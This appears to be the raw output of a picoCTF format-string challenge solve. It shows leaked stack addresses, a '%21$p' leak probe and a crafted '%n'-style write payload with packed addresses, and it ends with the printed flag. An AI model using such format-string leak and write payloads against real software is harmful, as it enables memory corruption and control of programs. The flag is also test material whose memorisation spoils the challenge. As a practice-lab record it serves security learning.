 You heard in the distance: (nil)

You heard in the distance: (nil)

You heard in the distance: 0x5ad70e60f2b5

You heard in the distance: (nil)

You heard in the distance: 0xa70243625

You heard in the distance: 0x100000

You heard in the distance: 0x8000

You heard in the distance: 0x7fff7f757f18

You heard in the distance: 0x5500000006

You heard in the distance: (nil)

You heard in the distance: (nil)

You heard in the distance: (nil)

You heard in the distance: (nil)

You heard in the distance: (nil)

You heard in the distance: (nil)

You heard in the distance: (nil)

You heard in the distance: (nil)

You heard in the distance: 0x79386bad94bb7d00

You heard in the distance: 0x7fff7f757f50

You heard in the distance: 0x5ad6cffb5413

b'%21$p'
b'%21097c%11$lln%2157c%12$hn%29989c%13$hnaH\x7fu\x7f\xff\x7f\x00\x00L\x7fu\x7f\xff\x7f\x00\x00J\x7fu\x7f\xff\x7f\x00\x00'
b'You heard in the distance:
...
b'Congrats! Here is your flag: picoctf{f1ckl3_f0rmat_f1asc0}\n'

```


